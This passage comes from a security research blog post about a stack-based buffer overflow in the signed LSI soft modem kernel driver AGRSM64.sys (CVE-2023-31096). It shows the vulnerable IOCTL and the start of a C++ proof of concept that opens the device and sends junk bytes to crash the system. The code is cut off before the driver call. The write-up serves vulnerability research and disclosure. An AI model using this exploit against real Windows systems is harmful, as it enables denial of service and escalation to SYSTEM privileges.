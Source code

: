 ```yaml
---
title: "kernel driver bughunting: exploiting a stack-based buffer overflow"
date: 2023-10-09T17:05:23+01:00
draft: false
description: In the last post we analyzed some drivers for potential security issues, this blog post will document the identification and exploitation of a vulnerable driver, LSI PCI-SV92EX Soft Modem Kernel Driver (AGRSM64.sys v2.2.100.0).
---
```



Specifically we will exploit a Local Privilege Escalation to SYSTEM through Stack Overflow via RTLCopyMemory (IOCTL 0x1b2150) aka [CVE-2023-31096](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31096).

As we can see from the below output of signtool the driver is signed by Microsoft and thus trusted to be loaded by any version of Windows:


{{< figure src="/images/stack_0.png" class="center" >}}


Once we found our attacker-controlled user inputs, we can then start reversing those functions. In the next screenshot you can see the IOCTL handler at `0x1b2150` takes param_2 and copies it's value to a destination buffer. If there is no bounds checking we have ourselves a vanilla stack-based buffer overflow. 

{{< figure src="/images/stack_1.png" class="center" >}}

We can start with a simple PoC to overflow return addresses with junk, remember as we are in kernel mode this will result in BSOD.

```c++
// AGRSM64 Kernel Driver LPE
// WIN11 x64 Stack Overflow Simple PoC
// Author: Christoph Schwarz cschwarz1@proton.me

#include <stdio.h>
#include <windows.h>
#include <psapi.h>

#define IOCTL_CODE 0x1b2150

void exploit() {
    // Defining buffer and buffer size to send to the driver
    char buf[250];
    // Fill buffer with junk
    memset(buf, 0x41, 250);

    // Obtaining handle to the driver
    printf("[+] Obtaining handle to the driver via CreateFileA()...\n");
    char* driver = const_cast <char*>("\\\\.\\GlobalRoot\\device\\AGRSM_xface");

    HANDLE drvHandle = CreateFileA(
        driver,
        0xC0000000,
        0x0,
        NULL,
        0x3,
        0x0,
        NULL
    );

    printf("[+] Handle to the driver %s: %d\n", driver, drvHandle);
    DWORD lpBytesReturned;

    printf("[+] Interacting with the driver...\n");
```